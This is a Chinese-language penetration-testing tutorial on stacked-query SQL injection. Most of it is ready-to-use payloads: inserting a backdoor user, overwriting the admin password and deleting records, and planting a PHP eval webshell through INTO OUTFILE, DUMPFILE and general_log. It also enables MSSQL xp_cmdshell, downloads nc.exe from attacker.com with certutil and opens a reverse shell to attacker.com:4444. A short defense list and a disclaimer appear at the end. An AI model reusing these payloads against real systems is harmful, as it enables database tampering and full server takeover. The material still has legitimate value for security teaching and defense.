

## 什么是堆叠查询注入

堆叠查询（Stacked Queries）就是在一条 SQL 请求中执行多条语句，用分号 `;` 分隔。大多数数据库都支持多语句执行，关键看连接数据库的 API 是否允许。

```sql
-- 正常：一条语句
SELECT * FROM news WHERE id = 1

-- 堆叠：两条语句
SELECT * FROM news WHERE id = 1; DROP TABLE users; -- -
```

---

## 哪些场景支持堆叠查询

| 数据库/API | 支持情况 |
|-----------|---------|
| MySQL + PHP `mysqli_multi_query()` | 支持 |
| MSSQL + ASP/ASPX | 默认支持 |
| PostgreSQL + PHP `pg_query()` | 不支持多语句 |
| Oracle | 默认不支持，需 PL/SQL 块 |
| MySQL + Python `cursor.execute()` | 默认不支持 |
| JDBC | 部分驱动支持 |

PHP 的 `mysql_query()` 不支持多语句（安全设计），但 `mysqli_multi_query()` 支持。ASP.NET + MSSQL 是堆叠注入的高发区。

---

## 利用场景

### 1. 增删改数据

联合查询只能读，堆叠查询能写：

```sql
?id=1; INSERT INTO users(username,password) VALUES('backdoor','pass123') -- -
?id=1; UPDATE users SET password='newpass' WHERE username='admin' -- -
?id=1; DELETE FROM users WHERE username='admin' -- -
```

### 2. 写入 Webshell

**前提：** 需要知道网站绝对路径。

```sql
?id=1; SELECT '<?php @eval($_POST["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php' -- -
```

或者写入 OUTFILE 报权限错误时，试试写入 `/tmp/` 或其他可写目录。

**MySQL INTO DUMPFILE（只写一行，适合 WebShell）：**

```sql
?id=1; SELECT 0x3c3f70687020406576616c28245f504f53545b22636d64225d293b203f3e INTO DUMPFILE '/var/www/html/shell.php' -- -
```

十六进制编码避免引号转义。

### 3. MSSQL 直接命令执行

MSSQL 的 `xp_cmdshell` 是堆叠查询的巅峰利用：

```sql
?id=1; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; --
?id=1; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
?id=1; EXEC xp_cmdshell 'whoami' -- -
```

结合 SQL Server 服务账户权限（常见 `NT AUTHORITY\SYSTEM`），直接从 SQL 注入拿到系统权限。



---

## MSSQL 堆叠注入完整利用

```sql
-- 1. 判断当前用户权限
?id=1; IF IS_SRVROLEMEMBER('sysadmin')=1 WAITFOR DELAY '0:0:3' -- -

-- 2. 开 xp_cmdshell
?id=1; EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE; --

-- 3. 执行命令
?id=1; EXEC xp_cmdshell 'certutil -urlcache -split -f http://attacker.com/nc.exe C:\Windows\Temp\nc.exe' --
?id=1; EXEC xp_cmdshell 'C:\Windows\Temp\nc.exe -e cmd.exe attacker.com 4444' --
```

---

## MySQL 写 Webshell 的常见问题

1. **权限：** MySQL 用户需要 `FILE` 权限。检测：`SELECT file_priv FROM mysql.user WHERE user=current_user();`
2. **`secure_file_priv` 限制：** MySQL 5.7+ 默认限制了 `INTO OUTFILE` 的目录。查看：`SELECT @@secure_file_priv;`

```sql
-- 如果 secure_file_priv = '' → 任意目录可写
-- 如果 secure_file_priv = '/tmp/' → 只能写 /tmp/
-- 如果 secure_file_priv = NULL → 完全禁止文件操作
```

3. **写入路径不存在：** OUTFILE 不能创建目录，目标目录必须已存在。用日志写入绕过：
   ```sql
   SET GLOBAL general_log = ON;
   SET GLOBAL general_log_file = '/var/www/html/shell.php';
   SELECT '<?php @eval($_POST["cmd"]); ?>';
   SET GLOBAL general_log = OFF;
   ```

---

## 防御方案

1. **禁止多语句执行：** PHP 用 `mysql_query()` 或 PDO 默认单语句
2. **最小权限：** MySQL 用户不要给 FILE 权限，MSSQL 不给 sysadmin
3. **secure_file_priv 设限制：** 生产环境设为 NULL 或限定目录
4. **禁用危险存储过程：** MSSQL 禁用 xp_cmdshell

---

> 本文仅用于授权安全测试与学习，请勿用于非法用途。
